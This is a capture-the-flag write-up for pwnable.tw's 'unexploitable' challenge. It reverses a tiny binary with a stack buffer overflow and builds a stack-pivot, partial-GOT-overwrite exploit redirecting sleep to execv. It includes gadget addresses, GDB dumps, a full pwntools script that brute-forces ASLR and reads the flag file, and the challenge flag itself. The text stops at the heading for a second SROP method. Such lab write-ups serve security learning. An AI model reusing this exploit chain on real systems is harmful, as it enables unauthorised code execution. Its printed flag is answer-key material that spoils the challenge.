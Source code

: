 ---
title: '[PWNABLE.TW] - unexploitable'
description: 'Nothing is unexploitable, even if it seems so...'
image: '../../../img/cover_photo_wargame_imresizer.png'
date: 2025-05-05
tags: ['2025', 'Wargame', 'pwnable.tw']
authors: ['kdot']
draft: true
---


## Challenge Information

<Challenge
  category="pwn"
  points={500}
  description="The original challenge is on pwnable.kr and it is solvable. This time we fix the vulnerability and now we promise that the service is unexploitable."
  flag="FLAG{4_r34lLy_Un3Xpl01T48l3_S3Rv1C3_Sh0UlD_n0T_H4v3_SYsC4ll_1NS1D3}"
>
</Challenge>

## Reverse Engineering

Let's start with checking the binary mitigations. We can use `checksec` to do that:


```sh title='checksec'
alter ^ Sol in /mnt/e/sec/lab/pwnable.tw/unexploitable
$ checksec unexploitable
[*] '/mnt/e/sec/lab/pwnable.tw/unexploitable/unexploitable'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

We can see that the binary is not stripped, which is a good thing for us. We can also see that there is no stack canary, which means we can overwrite the return address of a function. The binary is also not position independent, which means that the address of the functions will be the same every time we run the binary. Dive into the decompiled code to see what is going on

```c title='IDA'
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE buf[16]; // [rsp+0h] [rbp-10h] BYREF

  sleep(3u);
  return read(0, buf, 0x100uLL);
}
```

There's only have one `main` function. In this function, we can see that it sleeps for 3 seconds and then calls the `read` function. The `read` function reads `0x100` bytes from the standard input into the buffer `buf`. The buffer is only 16 bytes long, so we have `Buffer Overflow` here.

## Exploit Strategies

With only one function in the binary, and it allows us just to read `0x100` bytes into a buffer, no leak, no `win` function. So what we can do now?
I have I few ideas in my mind:

- Because there is `Partial RELRO`, we can overwrite the GOT entry of `sleep` function to point to `execv` function. This function is not too far from the `sleep` function, so we can completely overwrite it with `Partial Overwrite`
- We see that we have `read` function which will return the number of bytes read, and we also have `syscall` gadget if we use partial overwrite to overwrite `sleep` function to `syscall` gadget. In this way we can do SROP
- The binary has `__libc_csu_init`, which is really over power function. We can call everything using this function. This technique also called `ret2csu`

And in this write up, I will still give the method of doing the three in as much detail as possible.

## Exploit

### Method 1: Stack Pivot

I call this method Stack Pivot because my whole process is just pivoting and overwriting `sleep` -> `execv`. But first let's collect some useful gadgets

```py title='exploit.py'
        mov_edi = 0x400600      # mov edi,  [rsp+0x30] ; add rsp, 0x38 ; ret ;
        leave_ret = 0x400576
        ret = leave_ret + 1
        read_gadget = 0x40055B
```

In this way I will mainly use these 4 gadgets. Everything has only one strange thing, the `mov` gadget, because the `__libc_csu_init` function in this binary has been recoded so it doesn't have the `pop` gadgets like before, but that's okay the mov gadget still has a similar function. And the reason I chose the `execv` function is because it really only needs one argument to drop the shell for us. According to the man page we can know that:

```sh title='execv manpage'
SYNOPSIS
    #include <unistd.h>

    extern char **environ;
    int execv(const char *pathname, char *const argv[]);

DESCRIPTION
    <...>
    v - execv(), execvp(), execvpe()
       The char *const argv[] argument is an array of pointers to null-terminated strings that represent the argument list available to the new program.  The first argument, by convention, should point to the  filename  associated
       with the file being executed.  The array of pointers must be terminated by a null pointer.
```

So first we will start pivoting, because we will pivot into the section of `sleep@GOT` and when it returns it will return `sleep@GOT + 0x18`, so our first payload will have to be to read some areas of `sleep@GOT + 0x10 + 0x10` then when we return in payload 2 when we use it to write to `sleep@GOT` it will have data to return. So our payload 1 will be like this:

```py title='exploit.py'
        offset = 0x10
        read_gadget = 0x40055B
        bss = 0x601800
        mov_edi = 0x400600      # mov edi,  [rsp+0x30] ; add rsp, 0x38 ; ret ;
        leave_ret = 0x400576
        ret = leave_ret + 1

        payload = flat({
            offset: [
                exe.got.sleep + 0x10 + 0x10,
                read_gadget
            ]
        }, filler=b'A')

        # input("Payload 1")
        sleep(4)
        s(payload)
```

And payload 2 is the same when it returns it will return to `sleep@GOT + 0x18`. Because our payload 2 will start from `sleep@GOT + 0x10` so we will set up a place so that after reading it will return to:

```py title='exploit.py'
        # Start at 0x601020
        payload = flat(

            bss - 0x100 + 0x10,
            read_gadget,

            exe.got.sleep + 0x10,
            read_gadget

        )

        # input("Payload 2")
        sleep(0.5)
        s(payload)

        # input("Payload 3")
        sleep(0.5)
        s(p16(0x9cb0))
```

It looks complicated but let me debug it for you

```sh title='GDB'
pwndbg> x/20xg 0x601010
0x601010 <sleep@got.plt>:       0x00007ffff7ad9680      0x0000000000000000
0x601020:                       0x0000000000601710      0x000000000040055b (2)
0x601030 <dtor_idx.6533>:       0x0000000000601020      0x000000000040055b (1)
0x601040:                       0x0000000000000000      0x0000000000000000
0x601050:                       0x0000000000000000      0x0000000000000000
0x601060:                       0x0000000000000000      0x0000000000000000
0x601070:                       0x0000000000000000      0x0000000000000000
0x601080:                       0x0000000000000000      0x0000000000000000
0x601090:                       0x0000000000000000      0x0000000000000000
0x6010a0:                       0x0000000000000000      0x0000000000000000
```

This is the data when I read the 2nd payload in, and when it executes first it will execute the gadget at address `0x601038` first then when it returns it will take the value of `saved RBP` at `0x601030` which is `0x601020` to return then it continues to execute and gives us the 3rd read. And now we check in the GOT table and see that `sleep` has been overwritten to `execv`

```sh title='GDB'
pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /mnt/e/sec/lab/pwnable.tw/unexploitable/unexploitable_patched:
GOT protection: Partial RELRO | Found 3 GOT entries passing the filter
[0x601000] read@GLIBC_2.2.5 -> 0x7ffff7b04670 (read) ◂— cmp dword ptr [rip + 0x2d20c9], 0
[0x601008] __libc_start_main@GLIBC_2.2.5 -> 0x7ffff7a2e740 (__libc_start_main) ◂— push r14
[0x601010] sleep@GLIBC_2.2.5 -> 0x7ffff7ad9cb0 (execv) ◂— mov rax, qword ptr [rip + 0x2f7201]
```

And the last thing we will do is set up the necessary things to call `execv`. I won't explain this part too much because it's not too complicated. You can debug my script to understand better.

```py title='exploit.py'
    # Start at 0x601700
    payload = flat(

        0,
        mov_edi,

        bss - 0x100,
        leave_ret,

        b'C'*0x20,
        p64(bss - 0x100 + 0x50),
        exe.plt.sleep,
        b'/bin/sh\0',

    )

    input("Payload 4")
    sleep(0.5)
    s(payload)
```

Because ASLR is always enabled, we need to brute force when running the script in remote. **Note** that the program will read our input after sleeping for 3 seconds, so to be safe and not mess up our inputs, we should let our exploit sleep for 4 seconds before reading the first payload, and don't forget to let the exploit sleep in small intervals so that the input readings don't overlap.

<details id="full exploit">
<summary>**Full exploit**</summary>
<p>

```py title='exploit.py'
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.6", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./unexploitable_patched', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, aslr=False, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(1)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
# b *0x400576
b *0x400577
c
'''

# ==================== EXPLOIT ====================

while True:
    p = start()

    def exploit():

        offset = 0x10
        read_gadget = 0x40055B
        bss = 0x601800
        mov_edi = 0x400600      # mov edi,  [rsp+0x30] ; add rsp, 0x38 ; ret ;
        leave_ret = 0x400576
        ret = leave_ret + 1

        payload = flat({
            offset: [
                exe.got.sleep + 0x10 + 0x10,
                read_gadget
            ]
        }, filler=b'A')

        # input("Payload 1")
        sleep(4)
        s(payload)

        # Start at 0x601020
        payload = flat(

            bss - 0x100 + 0x10,
            read_gadget,

            exe.got.sleep + 0x10,
            read_gadget

        )

        # input("Payload 2")
        sleep(0.5)
        s(payload)

        # input("Payload 3")
        sleep(0.5)
        s(p16(0x9cb0))

        # Start at 0x601700
        payload = flat(

            0,
            mov_edi,

            bss - 0x100,
            leave_ret,

            b'C'*0x20,
            p64(bss - 0x100 + 0x50),
            exe.plt.sleep,
            b'/bin/sh\0',

        )

        # input("Payload 4")
        sleep(0.5)
        s(payload)

        try:
            sleep(0.5)
            sl(b'echo WIN!!')
            ru(b'WIN!!')
            return True
        except:
            close()
            return False

        interactive()

    if __name__ == '__main__':
        if exploit():
            sl(b'cat /home/unexploitable/f*')
            interactive()
            break
# FLAG{4_r34lLy_Un3Xpl01T48l3_S3Rv1C3_Sh0UlD_n0T_H4v3_SYsC4ll_1NS1D3}
```

Yes yes, I think this is unintended solution base on that flag 🥹
</p>
</details>

### Method 2: SROP
